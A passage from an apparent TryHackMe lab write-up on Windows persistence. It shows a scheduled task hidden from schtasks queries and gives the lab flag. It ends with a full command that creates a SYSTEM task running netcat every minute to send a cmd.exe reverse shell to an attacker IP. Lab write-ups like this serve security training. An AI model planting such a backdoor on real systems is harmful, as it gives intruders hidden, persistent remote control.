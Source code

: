 ![task5-registry](./images/task5-registry.png)

If we try to query our service again, the system will tell us there is no such task:

```
schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:

![task5-flag](./images/task5-flag.png)

### Answer the questions below

* Insert flag9 here

    `THM{JUST_A_MATTER_OF_TIME}`

    * Crete task schedule

        ```
        schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.9.251.6 5555" /ru SYSTEM
        ```
